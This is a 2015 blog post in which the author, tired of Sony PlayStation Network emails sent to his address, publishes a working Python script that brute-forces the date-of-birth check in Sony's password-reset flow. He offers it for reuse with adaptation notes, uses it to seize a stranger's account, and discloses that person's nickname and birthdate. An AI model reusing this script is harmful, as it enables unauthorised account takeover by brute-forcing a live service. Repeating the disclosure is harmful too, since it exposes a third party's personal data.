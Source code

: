 ```yaml
---
uid: 770
title: Sony Entertainment Network spam stopper
date: 2015-09-13T00:53:20+00:00
author: fvicente
layout: post
guid: http://www.alfersoft.com.ar/blog/?p=770
permalink: /2015/09/13/sony-entertainment-network-spam-stopper/
categories:
  - Programming FAQ
  - Software Development
tags:
  - network
  - playstation
  - python
  - sony
  - spam
comments: true
excerpt: How to avoid Sony Entertainment Network e-mail notifications for an account that someone created using your address
---
```

I don&#8217;t have a Sony PlayStation. But someone nicknamed &#8220;STRONDHA&#8221; has one, and somehow he managed to use my personal e-mail address to create his account. Oddly, Sony didn&#8217;t send any e-mail asking to confirm my e-mail as the owner of the account, and starting spamming every time this person bought a game in their virtual store.

<!--more-->

[<img src="{{ site.baseurl }}/images/sony_spam.png" alt="Sony sending unwanted e-mails"/>]({{ site.baseurl }}/images/sony_spam.png)

## Stop it

My name is too common, and is not the first time I get subscribed to some site I didn&#8217;t ask to. Sometimes, I just click on the &#8220;unsubscribe&#8221; link, or even on &#8220;forgot my password&#8221; and do whatever I need to stop receiving undesired e-mails.

So, I tried the &#8220;forget my password&#8221; trick with Sony, and after some captcha validation, I received an e-mail with a link. The problem is that they required the birthday in order to reset the password, and of course, I don&#8217;t know the birthday of the person that created the account.

Enters python script to try every possible birthday date from 1/1/1960 until today.

### Notes

* You will need to change the base URL to whatever you received in the password reset e-mail from Sony

* You might need to change the &#8216;wrong date&#8217; message to match your local language &#8211; mine is in portuguese (just try any date on the browser, and -unless you&#8217;re so lucky to select the actual birth date- copy and paste the error message on the code)

{% highlight python %}
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import urllib
import urllib2
import datetime
import sys
import time

from HTMLParser import HTMLParser

# create a subclass and override the handler methods
class MyHTMLParser(HTMLParser):
    def handle_starttag(self, tag, attrs):
        attrs_dict = dict(attrs)
        if tag == "input" and attrs_dict.get('name', '') == "blah_token":
            setattr(self, "value", attrs_dict.get("value"))

    def handle_endtag(self, tag):
        pass

    def handle_data(self, data):
        pass


values = {
    'struts.token.name' : 'blah_token',
    'blah_token': '',
    'verifyType': 'dob',
    'account.dob': '1',
    'account.mob': '1',
    'account.yob': '1980',
}

#
# IMPORTANT: paste the URL received in the change password e-mail in the url variable, the url looks something like this:
# https://account.sonyentertainmentnetwork.com/reg/account/validate-forgot-password-token!input.action?token=***some token here***&request_locale=pt_BR&service-entity=np
#
url = '*** PASTE URL HERE ***'
url_post = "https://account.sonyentertainmentnetwork.com/liquid/reg/account/forgot-password-verify-identity.action"

s = requests.session()
r = s.get(url)
date = datetime.datetime(1960, 1, 1, 1, 1, 1)
today = datetime.datetime.today()
while date < today: 
    date += datetime.timedelta(days=1)
    # find token
    parser = MyHTMLParser()
    parser.feed(r.text)
    if not hasattr(parser, "value"):
        print "!!!!! FOUND %s" % date.isoformat()
        break
    val = getattr(parser, "value")
    print "blah_token = %r" % val
    values['blah_token'] = val
    values['account.dob'] = str(date.day)
    values['account.mob'] = str(date.month)
    values['account.yob'] = str(date.year)
    r = s.post(url_post, values)
    #
    # IMPORTANT: The message is in portuguese, you will need to change this message to match your language
    #
    if u'A data de nascimento inserida é inválida. Verifique a data e tente novamente.' in r.text:
        print "birthday is not %s" % date.isoformat()
    else:
        print "!!!!! FOUND %s" % date.isoformat()
        break
    sys.stdout.flush()
{% endhighlight %}

[See sony.py on gist](https://gist.github.com/fvicente/75980d0d00d759b06e50)

STHRONDHA was born on January 23 of 1983 (or at least that&#8217;s the date he choose when creating his account). So, now I was able to change the password and stop receiving e-mails from Sony. I guess he will need to create a new account now muahahaha.
